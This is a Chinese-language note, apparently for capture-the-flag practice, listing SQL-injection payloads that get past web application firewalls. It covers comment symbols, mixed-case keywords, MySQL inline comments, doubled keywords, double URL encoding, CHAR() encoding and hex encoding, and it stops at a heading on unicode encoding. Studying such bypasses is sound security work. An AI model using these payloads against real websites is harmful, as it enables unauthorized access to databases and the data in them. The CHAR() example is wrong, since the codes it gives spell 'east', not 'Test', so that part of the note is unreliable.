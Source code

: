 ## 1.注释符号绕过

```bash
--  注释内容
# 注释内容
/*注释内容*/
;
```

## 2.大小写绕过

常用于 waf的正则对大小写不敏感的情况，一般都是题目自己故意这样设计。

```bash
UniOn 
SeleCt
```

## 3.内联注释绕过

内联注释就是把一些特有的仅在MYSQL上的语句放在 /*!..*/ 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行。

```bash
 select * from cms_users where userid=1 union /*!select*/ 1,2,3;
```

## 4.双写绕过

在某一些简单的waf中，将关键字select等只使用replace()函数置换为空，这时候可以使用双写关键字绕过。例如`select`变成`seleselectct`，在经过waf的处理之后又变成select，达到绕过的要求。

## 5.编码绕过

如URLEncode编码，ASCII,HEX,unicode编码绕过：
**对关键字进行两次url全编码：**

```bash
1+and+1=2
1+%25%36%31%25%36%65%25%36%34+1=2 
```

**ascii编码绕过**

```bash
Test 等价于CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)
```

**16进制绕过：**

```bash
select * from users where username = test1;
select * from users where username = 0x7465737431;
```

**unicode编码对部分符号的绕过：**
